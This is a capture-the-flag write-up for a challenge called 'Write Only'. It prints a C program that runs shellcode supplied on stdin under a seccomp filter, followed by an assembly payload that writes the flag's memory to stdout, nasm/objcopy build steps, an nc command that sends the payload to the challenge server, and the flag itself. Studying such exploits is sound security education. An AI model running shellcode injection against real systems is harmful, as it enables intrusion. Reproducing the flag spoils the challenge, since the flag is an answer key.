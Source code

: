 # ✍️ Write Only (Score: 170 / Solves: 33)
The flag is there. But that doesn't mean you'll be able to see it.

nc 147.78.1.47 40183

https://dl.1753ctf.com/write-only?s=jRBXD9EC


## Solution

We received a C file, and were tasked with exploiting it.

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>

#include <errno.h>
#include <linux/audit.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <linux/unistd.h>
#include <stddef.h>
#include <stdio.h>
#include <sys/prctl.h>
#include <unistd.h>

#include <stdbool.h>

bool install_filter()
{
	struct sock_filter filter[] = {
		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, arch))),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),

		BPF_STMT(BPF_LD + BPF_W + BPF_ABS, (offsetof(struct seccomp_data, nr))),

		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_write, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, __NR_exit_group, 0, 1),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW),
		BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL_PROCESS),
	};
	struct sock_fprog prog = {
		.len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
		.filter = filter,
	};
	if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0))
	{
		perror("prctl(NO_NEW_PRIVS)");
		return 1;
	}
	if (prctl(PR_SET_SECCOMP, 2, &prog))
	{
		perror("prctl(PR_SET_SECCOMP)");
		return 1;
	}
	return 0;
}

int main()
{
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	const int FLAG_SIZE = 0x40;
	char flag[FLAG_SIZE];
	char *flag_mem = (char *)mmap(NULL, FLAG_SIZE, PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	FILE *flag_file = fopen("flag", "r");
	fread(flag_mem, 1, FLAG_SIZE, flag_file);
	fclose(flag_file);

	const int CODE_SIZE = 0x200;
	char *code_mem = (char *)mmap(NULL, CODE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	read(STDIN_FILENO, code_mem, CODE_SIZE);
	mprotect(code_mem, CODE_SIZE, PROT_READ | PROT_EXEC);

	install_filter();

	asm(
		"mov rax, %0;" // flag address in rax
		"jmp %1;"	   // jump into recdeived code
		:			   // no output
		: "r"(flag_mem), "r"(code_mem));
}
```

The key vulnerability lies in the dynamic execution of untrusted code read from stdin. The program executes this code with the flag's memory address available, allowing a carefully crafted payload to read the flag and output it using the allowed write system call.

To exploit this program and capture the flag:

1. Craft a Payload: You need to write assembly code (or compile C code to assembly that fits the constraints) that:

i. Uses the write system call to output the flag to stdout.
i. Operates under the assumption that the starting address of the flag is provided in the RAX register (as the program's final instructions before executing the untrusted code suggest).
i. Adheres to the x86_64 calling conventions, specifically for system calls (e.g., system call number in RAX, arguments in RDI, RSI, RDX, etc., for the write syscall).

2. Bypass the seccomp Filter: Ensure your payload only uses the allowed system calls (write, exit, exit_group). Since the program explicitly kills any process that attempts to use a system call other than these, your payload must avoid making any other system calls.

3. Deliver the Payload: Once your payload is ready, you just need to provide it to the program's stdin when executed. This could be done by echoing the payload and piping it into the program, or by providing it through an input file redirected to the program.

```assembly
; Move the flag address from RAX to RSI (since RAX will be overwritten for syscall number)
mov rsi, rax

; Write syscall number (1) to RAX
mov rax, 1

; Set file descriptor to stdout (1) in RDI
mov rdi, 1

; Set number of bytes to write in RDX
mov rdx, 0x40

; Invoke the syscall
syscall

; Exit syscall
mov rax, 60  ; syscall number for exit
xor rdi, rdi ; status code 0
syscall
```

```sh
nasm -f elf64 payload.asm -o payload.o
ld -o payload payload.o
objcopy -O binary payload payload.bin
nc 147.78.1.47 40183 < payload.bin
```

1753c{yes_its_write_only_but_you_can_read_it_too}

